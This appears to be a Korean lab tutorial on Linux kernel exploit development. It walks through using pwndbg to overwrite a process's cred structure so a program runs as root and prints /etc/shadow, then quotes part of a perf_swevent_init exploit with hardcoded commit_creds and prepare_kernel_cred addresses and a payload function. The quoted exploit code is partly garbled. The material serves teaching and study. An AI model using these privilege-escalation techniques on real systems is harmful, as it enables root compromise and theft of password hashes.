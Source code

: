 
# Linux Kernel Exploit Development 3

## Introduction

* `prepare_kernel_cred()` 와 `commit_creds()`의 하드 코딩된 주소를 이용하자.<br>위의 함수들은 커널에 의해 export되고 그들의 주소는 동일 리눅스 배포 버전을 다운로드 및 설치 하거나 `/poc/kallsyms` 같은 특정 파일에 권한이 잘되어 있지 않은 경우 알아낼수있다.<br> 따라서 이런 함수들의 하드코딩된 주소들은 일반적으로 PoC code를 위해 사용된다.<br>
<br>

* thread_info structure의 주소를 찾기 위해 heuristic을 사용한다.<br>그리고 이 structure의 첫번째 포인터는 task_struct의 주소를 포함하고 있다.<br>task_struct는 cred structure의 주소를 가져 오는데 사용된다.<br>이것은 방대한 커널 버전들을 타겟으로 한 exploit을 하기위해 추천되는 방법이다.<br>
![stack](https://github.com/Kimdong0219/image/blob/master/stack.png?raw=true)
<br>

----

## Task 1

TestVM의 `./exercises/cred_struct`에서, getuid syscall을 사용하여 uid를 체크하는 간단한 user-space program을 찾을 수 있다.<br>

만약 uid가 0이라면, 이 프로그램은 /etc/shadow파일을 출력해줄 것이다.<br>

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
int main() {
uid_t uid;
uid = getuid();
printf("my uid = %d\n", uid);
if (uid == 0)
system("cat /etc/shadow");
return 0;
}
```
<br>

**`sys_getuid`에 breakpoint를 걸고 `thread_info`의 주소를 계산해라.**<br>

**`cred structure`를 얻기위해 `typecasting`을 사용할 수 있고 필요한 필드를 0으로 세팅해라.**<br>

**결과물로 `uid=0`와 `/etc/shadow`파일을 출력해라!**<br>

### 분석 시작 <br>

sys_getuid의 code를 살펴보자.<br>
<b>https://elixir.bootlin.com/linux/v4.5/source/include/linux/syscalls.h#L225</b> <br>

```c
asmlinkage long sys_getuid(void);
```
<br>

sys_getuid에는 별도로 들어가는 인자가 없다.<br>

```c
   0xffffffff81065650 <+0>:	push   rbp
   0xffffffff81065651 <+1>:	mov    rbp,rsp
   0xffffffff81065654 <+4>:	nop    DWORD PTR [rax+rax*1+0x0]
   0xffffffff81065659 <+9>:	mov    rax,QWORD PTR gs:0xc700
   0xffffffff81065662 <+18>:	mov    rax,QWORD PTR [rax+0x458]
   0xffffffff81065669 <+25>:	pop    rbp
   0xffffffff8106566a <+26>:	mov    eax,DWORD PTR [rax+0x4]
   0xffffffff8106566d <+29>:	cmp    eax,0xffffffff
   0xffffffff81065670 <+32>:	cmove  eax,DWORD PTR [rip+0xbc5259]    # 0xffffffff81c2a8d0 <overflowuid>
   0xffffffff81065677 <+39>:	mov    eax,eax
   0xffffffff81065679 <+41>:	ret
```
<br>

breakpoint를 sys_getuid에 걸어본다.<br>
![sys_getuid](https://github.com/Kimdong0219/image/blob/master/uid.png?raw=true)
<br>

```c
pwndbg> i r
rax            0x3e9	1001
rbx            0x0	0
rcx            0x7fff6fbb9450	140735067952208
rdx            0x7fff6fbb97c8	140735067953096
rsi            0x7fff6fbb97b8	140735067953080
```
<br>

rax=0x3e9의 값이 들어있는 것을 확인할 수 있다.<br>

 `0xffffffff81065659 <+9>:	mov    rax,QWORD PTR gs:0xc700`에서 보면 rax값이 gs:0xc700에서 들어오는 것으로 확인된다.<br>
 위의 그림에서 확인하듯이 gs:0xc700가 task_struct가 된다.<br>
breakpoint를 `sys_getuid+9`로 맞춰서 rax에 들어가는 task_struct를 `typecasting` 해보자.<br>

```c
pwndbg> i r
rax            0xffff880079a04500	-131939354786560 <== thread당 할당되기때문에 주소가 매번 다를수있다.
pwndbg> p (struct task_struct*)0xffff880079a04500
$1 = (struct task_struct *) 0xffff880079a04500
pwndbg> p *$1
$2 = {
  state = 0,
  stack = 0xffff880077e02000,
  usage = {
    counter = 2
  },
.....
real_cred = 0xffff880036db5d40 <== real_cred를 찾아야한다.
```
<br>

이렇게 `real_cred`의 주소를 얻어올수있다. <br>

다시 real_cred의 struct를 불러오자.<br>
 앞에서 task_struct가 \$1로 `typecasting`이 되었으므로 `$1.real_cred`로 부르면 된다.<br>

```c
pwndbg> p *$1.real_cred
$6 = {
  usage = {
    counter = 4
  },
  uid = 1001,
  gid = 1001,
  suid = 1001,
  sgid = 1001,
  euid = 1001,
  egid = 1001,
```
<br>

다음과 같이 `uid,gid,suid,sgid,euid,egid` 등등의 구조체안의 인자들을 확인할 수 있다.<br>

이제 `uid,gid,euid,egid`를 바꿔보자.<br>

```c
pwndbg> set $2.real_cred.uid=0
pwndbg> p *$2.real_cred
$9 = {
  usage = {
    counter = 4
  },
  uid = 0
```
real_cred.uid는 주소값이 아닌 자체적인 인자값이므로 (*)을 따로 붙이지 않고 바로 set해준다.<br>
같은 방식으로 `gid,euid,egid`를 바꿔보자.<br>
```c
pwndbg> set $2.real_cred.gid=0
pwndbg> set $2.real_cred.euid=0
pwndbg> set $2.real_cred.egid=0
pwndbg> p *$2.real_cred
uid = 0,
gid = 0,
euid = 0,
egid = 0,
```
**uid,gid,euid,egid가 모두 바뀌었다.**
![shadow](https://github.com/Kimdong0219/image/blob/master/shadow.png?raw=true)

####shadow 파일 출력!

----

## Task2

`./exercises/perf`에 Ubuntu 12.04 에서 `perf_swevent_init`를 이용한 exploit 코드가 있다.<br>

이 exploit은 TestVM에 설치된 kernel version에서 `escalate privileges`에 사용될수 있다.<br>

exploit을 컴파일 해서 `root shell`을 획득하라.<br>

이 exploit은 `commit_creds()`와 `prepare_kernel_cred()`에 hardcoded 된 주소를 사용한다.<br>

```c
uint64_t targets[3][3] =
{{0xffffffff81ef67e0, // perf_swevent_enabled
0xffffffff81091630, // commit_creds
0xffffffff810918e0}, // prepare_kernel_cred
{0xffffffff81ef67a0,
0xffffffff81091220,
0xffffffff810914d0},
{0xffffffff81ef5940,
0xffffffff8107ee30,
0xffffffff8107f0c0}
};
void __attribute__((regparm(3))) payload() {
unsigned long stack, task_struct, cred;
int placeholder;
uint32_t *fixptr = (void*)AB(1);
// restore the handler
*fixptr = -1;
commit creds fn commit creds = (commit creds fn)AB(2);
prepare kernel cred fn prepare kernel cred = (prepare kernel cred fn)AB(3);
commit creds(prepare kernel cred((uint64 t)NULL));
}
```
<br>

**하드코딩된 `commit_creds()`와 `prepare_kerenel_cred()`의 주소를 제거하기 위해 이 `payload()`함수를 이용해라.<br>
 `privilege escalation paylod`는 `stack pointer`를 획득 하고 13개 bit에 masking away를 해서 `cred structure`에 위치시켜라.**<br>

 -----
 ## Task2 풀이는 다음주에!
